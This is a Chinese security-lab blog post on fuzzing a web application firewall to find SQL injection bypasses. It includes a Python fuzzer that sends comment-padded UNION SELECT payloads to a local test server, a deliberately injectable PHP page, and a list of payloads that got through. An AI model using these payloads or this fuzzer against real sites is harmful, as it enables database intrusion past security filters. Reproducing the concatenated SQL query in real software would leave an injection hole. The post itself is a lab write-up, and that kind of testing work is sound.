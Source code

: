 ```yaml
---
layout: post
title:  "Fuzz 测试 WAF"
date:   2017-06-02
categories: web安全
permalink: /archivers/2017-06-02/1
description: "本篇文章是总结 科拉实验室V1n3r的Fuzz bypass WAF的过程，由科拉实验室 倾旋 做内容补充。"
---
```

本篇文章是总结 科拉实验室V1n3r的Fuzz bypass WAF的过程，由科拉实验室 倾旋 做内容补充。
<!--more-->
* 目录
{:toc}

## 0x00 前言
科拉实验室 是一个无名无实的信息安全实验室，此Git用于发布成员研究成果，技术交流而创。

本篇文章是总结 科拉实验室V1n3r的Fuzz bypass WAF的过程，由科拉实验室 倾旋 做内容补充。

参考文献：http://www.cnblogs.com/perl6/p/7076524.html

环境如下：
* Windows 2008
* Apache
* PHP
* MySQL
* 某WAF 4.0


## 0x01 原理


每当WAF拦截一个请求，都会返回一个相同的提示页面，这个页面可以给予我们与正常请求页面不同的响应。

如：网页标题、网页内容、HTTP响应头、等等……

那么在WAF匹配攻击敏感点的时候它会查询一下自己的规则库（正则表达式），如果遇到匹配不到的请求（正常请求 or 攻击请求），都会自动放行。

首先要确立一个看似一定会被拦截的规则，然后在此规则上做FUZZ测试。

例如：`UNION SELECT XXX`

但是我们在UNION与SELECT之间可以做许多注释来进行测试，假设规则库（正则）中只能匹配到数字、大小写字母，那么就可以填充它预知不到的字符，该请求被发送出去，都将会被视为正常请求放行。

例如：`UNION/*%(-_/}%*/ SELECT`

当前状况下，`/**/`中的字符都不会被SQL解析。

## 0x02 机器实现对抗规则库

```python
# -*- coding: utf-8 -*-
import requests
fuzz_zs = ['/*','*/','/*!','*','=','`','!','@','%','.','-','+','|','%00']
fuzz_sz = ['',' ']
fuzz_ch = ["%0a","%0b","%0c","%0d","%0e","%0f","%0g","%0h","%0i","%0j"]
 # 这里还可以填充更多的冷门字符
fuzz = fuzz_zs+fuzz_sz+fuzz_ch
headers = {"User-Agent":"Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2623.221 Safari/537.36 SE 2.X MetaSr 1.0"}
url_start = "http://192.168.1.104/index.php?id=1"
for a in fuzz:
    for b in fuzz:
        for c in fuzz:
            for d in fuzz:
                    exp = "/*!union/*"+a+b+c+d+"*/select*/ 1,2"
                    url = url_start + exp
                    res = requests.get(url = url , headers = headers)
                    #print(res.text.find("true"))
                    if res.text.find("true")==-1:
                        print("Find Fuzz bypass:"+url)
                        pass

```

服务器端代码：
```php
<?php
mysql_connect("127.0.0.1","root","root","test");
$id=!empty($_GET['id'])?$_GET['id']:1;
$SQL="SELECT * FROM test.test WHERE id = " . $id;
$result = mysql_fetch_assoc(mysql_query($SQL));
print_r($result);
```
数据库结构：

![数据库结构][1]


注意要将CC防护关闭，因为它会将短时间内请求数量过高的主机加入黑名单

## 0x03 Just Do it

![fuzz][2]

[1]: https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-11-22/00.png "数据库结构"
[2]: https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-11-22/11.png "FUZZ结果"

```
 Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0h%0c*/select
*/ 1,2
Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0h%0d*/select
*/ 1,2
Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0h%0e*/select
*/ 1,2
Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0h%0f*/select
*/ 1,2
Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0h%0g*/select
*/ 1,2
Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0h%0h*/select
*/ 1,2
Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0h%0i*/select
*/ 1,2
Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0h%0j*/select
*/ 1,2
Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0i/**/select*
/ 1,2
Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0i*/*/select*
/ 1,2
Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0i/*!*/select
*/ 1,2
Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0i**/select*/
 1,2
 ..................
 ```

 对抗结果如上
 
 
 利用如上Payloads写出响应的Tamper已经不是什么难事了。
 
 
## 0x04 未来

目前是机器PK死的规则库，当然是机器会胜利，那么未来是否会是机器对抗机器？
 
还会远吗？

----------

科拉实验室  service@cora-lab.org

